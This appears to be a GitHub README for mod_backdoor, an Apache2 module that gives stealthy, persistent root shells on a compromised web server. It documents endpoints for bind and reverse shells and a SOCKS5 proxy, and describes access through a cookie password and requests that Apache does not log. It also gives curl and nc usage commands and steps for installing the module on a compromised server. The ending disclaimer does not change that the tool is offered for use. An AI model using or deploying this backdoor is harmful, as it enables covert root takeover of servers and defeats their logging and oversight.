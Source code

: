 # Apache2 mod_backdoor

mod_backdoor is a stealth backdoor using an Apache2 module.<br/>
The main idea is to fork() the primary Apache2 process just after it has loaded its config.
Since it's forked before the root user transfers the process to www-data, you can execute command as root.<br/>
As Apache2 loads its configuration only when you (re)start it, the challenge was to never let die this 
forked root apache2 process, to let us interact as root with the compromised system.

# Features

* Bind TTY Shell
* Reverse Shell (TTY , Native, PHP, Perl, Python, Ruby)
* High stability and reliability, each shell spawns 
a new forked independent root process **attached to PID 1** and **removed from apache2 cgroup**
* Socks5 proxy
* Password Protection through cookie headers
* Ping module to know if its still active
* Bypass logging mechanism. Each request to the backdoor module **are not logged** by Apache2.
* Work on systemd systems, but should also work with init-like systems.

# Demo
[![asciicast](https://asciinema.org/a/289452.svg)](https://asciinema.org/a/289452)
# Description

* The password is send through Cookie headers: `Cookie: password=backdoor`. It's defined with `#define` 
in the beginning of mod_backdoor.c, so you could easily edit it.<br/>

* Each following requests must contain this password to interact with the module.<br/>
* Each request containing this cookie **will not be logged by Apache** if the module is running. <br/>

* Each shell spawns **attached to PID** 1 and **is removed from apache2 cgroup**.
 It means it's possible to **restart/stop apache2.service from a spawned shell** (not true for 
 TTY shells because an apache2 process is needed to do the bidirectional communication between socket
 and pty). It also improves stealth, shells are no longer related to apache2.service. <br/>
 * IPC socket is stored in the private /tmp folder provided by systemd service. 
 On non-systemd systems, I'm working on how to implement a stealth behavior for the socket. Currently,
 the apache2 service doesn't restart properly because my apache2 root process isn't killed by the init service script.
 Have to kill my apache2 process by hand.

The apache2 server needs to be compiled with the mod_so to allow Dynamic Shared Object (DSO) support.
### Bind TTY Shell
The endpoint  `http[s]://<TARGET>/bind/<PORT>` binds a listening port on `<TARGET>:<PORT>` <br/>
When a connection is initiated to the listening port, the port closes. <br/>
`forkpty()` is used to obtain a native TTY shell, working with an IPC UNIX socket to communicate 
between forked TTY process and the new socket you just opened.<br/>
Shells could be easily upgraded with the famous trick:<br/>
 `CTRL-Z --> stty raw -echo --> fg --> reset`

### Reverse TTY Shell
It works like the bind shell, the endpoint `http[s]://<TARGET>/revtty/<IP>/<PORT>` returns a TTY
shell to `<IP>:<PORT>` <br/>


### Reverse Shell (No TTY)
The endpoint `http[s]://<TARGET>/reverse/<IP>/<PORT>/<PROG>` returns a shell to `<IP>:<PORT>`. <br/>
`<PROG>` must be one of these: <br/>
<p align="center">

| Native   | External  |    
| :------: | :--------:|
|   sh     |    php    |
|   bash   |    python |
|   dash   |    ruby   |
|   ash    |    perl   |
|   tcsh   |           |
|   ksh    |           |

</p>

`<PROG>` must be in lower-case.<br/>
PHP uses the `exec` function.<br/>
Ruby isn't using `/bin/sh`.

### Socks5 proxy
Source code comes from https://github.com/rofl0r/microsocks <br/>
The endpoint `http[s]://<TARGET>/proxy/<PORT>/<USER>` opens a socks5 proxy on `<PORT>`. 
`<USER>` is optional. If you set it, it activates the auth mode. Password is the same as the mod_backdoor.<br/>
Once a specific ip address authed successfully with `user:pass`, it is added to a whitelist and may use the proxy without auth. 
This is handy for programs like firefox that don't support `user:pass` auth.<br/>
For it to work you'd basically make one connection with another program that supports it, and then you can use firefox too.<br/>
Example:<br/>
1. `curl -H 'Cookie: password=backdoor' http://<TARGET>/proxy/1337/vlad` <br/>
--> Start socks proxy on port 1337 for `vlad` user 
2. `curl -x socks5://vlad:password=backdoor@<TARGET>:1337 https://www.google.com` <br/>
--> Register your IP address
3. You could now use it without auth
4. When you're done, you can kill the socks proxy by sending `imdonewithyou` in a socket <br/>
--> `echo "imdonewithyou" | nc <TARGET> 1337`

### Ping module
The endpoint `http[s]://<TARGET>/ping` tells you if the module is currently working.

# Notes
Apache2 Module Backdoor is inspired from Ringbuilder, created by Juan Manuel Fernandez ([@TheXC3LL](https://twitter.com/TheXC3LL))<br/>
More info about Ringbuilder:<br/>
https://github.com/TarlogicSecurity/mod_ringbuilder <br/>
https://www.tarlogic.com/en/blog/backdoors-modulos-apache/ <br/>

Socks5 code was adapted from https://github.com/rofl0r/microsocks <br/>
<br/>
Special thanks to [@Ug_0Security](https://twitter.com/Ug_0Security)

# Builds
For development :<br/>
* `apxs -i -a -c mod_backdoor.c sblist.c sblist_delete.c server.c -Wl,-lutil` <br/>
 `-Wl,-lutil` used to link mod_backdoor.so with libutil.so to use forkpty() from <pty.h>
* `systemctl restart apache2`

On a compromised server :<br/>
* Compile it for the desired arch and retrieve the mod_backdoor.so or<br/>
get it from the `build/` folder (compiled for: Apache/2.4.41 (Debian)).
* Copy mod_backdoor.so to `/usr/lib/apache2/modules/mod_backdoor.so`
* Copy backdoor.load to `/etc/apache2/mod-available/backdoor.load`
* `a2enmod backdoor` --> `systemctl restart apache2`

# Author
Vlad Rico ([@RicoVlad](https://twitter.com/RicoVlad))

## Disclaimer
This project was created only for learning purpose.<br/>
Usage of mod_backdoor for attacking targets without prior mutual consent is illegal. 
It is the end user's responsibility to obey all applicable local, state and federal laws. 
Developers assume no liability and are not responsible for any misuse or damage caused by this program.
